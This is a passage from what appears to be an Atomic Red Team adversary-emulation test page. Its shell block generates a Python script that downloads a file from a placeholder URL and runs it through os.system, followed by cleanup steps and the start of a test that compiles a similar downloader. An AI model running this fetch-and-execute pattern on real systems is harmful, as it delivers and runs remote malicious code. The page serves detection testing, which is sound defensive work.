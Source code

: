 
#### Attack Commands: Run with `sh`! 


```sh
which_python=$(which python || which python3 || which python3.9 || which python2)
echo 'import requests' > #{python_script_name}
echo 'import os' >> #{python_script_name}
echo 'url = "#{script_url}"' >> #{python_script_name}
echo 'malicious_command = "#{executor} #{payload_file_name} #{script_args}"' >> #{python_script_name}
echo 'session = requests.session()' >> #{python_script_name}
echo 'source = session.get(url).content' >> #{python_script_name}
echo 'fd = open("#{payload_file_name}", "wb+")' >> #{python_script_name}
echo 'fd.write(source)' >> #{python_script_name}
echo 'fd.close()' >> #{python_script_name}
echo 'os.system(malicious_command)' >> #{python_script_name}
$which_python #{python_script_name}
```

#### Cleanup Commands:
```sh
rm #{python_script_name} #{payload_file_name}
```



#### Dependencies:  Run with `sh`!
##### Description: Requires Python
##### Check Prereq Commands:
```sh
which_python=$(which python || which python3 || which python3.9 || which python2); $which_python -V
$which_python -c 'import requests' 2>/dev/null; echo $?
```
##### Get Prereq Commands:
```sh
pip install requests
```




<br/>
<br/>

## Atomic Test #3 - Execute Python via Python executables
Create Python file (.py) then compile to binary (.pyc) that downloads an external malicious script then executes locally using the supplied executor and arguments

**Supported Platforms:** Linux


**auto_generated_guid:** 0b44d79b-570a-4b27-a31f-3bf2156e5eaa




